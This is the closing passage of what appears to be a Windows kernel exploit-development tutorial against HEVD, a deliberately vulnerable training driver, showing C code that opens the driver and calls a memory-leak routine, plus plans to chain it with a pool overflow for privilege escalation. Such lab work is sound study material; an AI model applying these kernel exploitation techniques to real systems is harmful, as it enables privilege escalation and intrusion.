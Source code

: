 ```c
			}
		}
	}
}

void main(void)
{
	// Open a handle to the driver
	printf("[+] Obtaining handle to HEVD.sys...\n");

	HANDLE drvHandle = CreateFileA(
		"\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		0x0,
		NULL,
		OPEN_EXISTING,
		0x0,
		NULL
	);

	// Error handling
	if (drvHandle == (HANDLE)-1)
	{
		printf("[-] Error! Unable to open a handle to the driver. Error: 0x%lx\n", GetLastError());
		exit(-1);
	}
	else
	{
		memLeak(drvHandle);
	}
}

```

Conclusion
---

Kernel exploits from browsers, which are sandboxed, require such leaks to perform successful escalation of privileges. In part two of this series we will combine this bug with HEVD's pool overflow vulnerability to achieve a read/write primitive and perform successful EoP! Please feel free to reach out with comments, questions, or corrections!

Peace, love, and positivity :-)
